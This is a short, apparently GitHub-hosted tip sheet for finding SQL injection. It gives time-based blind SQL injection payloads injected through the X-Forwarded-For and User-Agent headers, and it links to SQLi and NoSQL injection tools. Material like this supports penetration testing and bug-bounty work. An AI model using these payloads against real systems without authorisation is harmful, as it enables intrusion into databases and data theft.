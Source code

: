This repo has some tips for finding sql injection
> 1. Blind Sql-injection
```
Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
For example, setting the value Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87'XOR(if(now()=sysdate(),sleep(5*5),0))OR' to the User-Agent header will cause the server to sleep for 25 (5*5) seconds.
```
> 2.Sqli detector
```
https://github.com/eslam3kl/SQLiDetector
https://github.com/JohnTroony/Blisqy
https://github.com/zeronine9/Blind_SPOT
```
> 3. NOSQL Injection
```
https://github.com/Charlie-belmer/nosqli
https://github.com/codingo/NoSQLMap
```
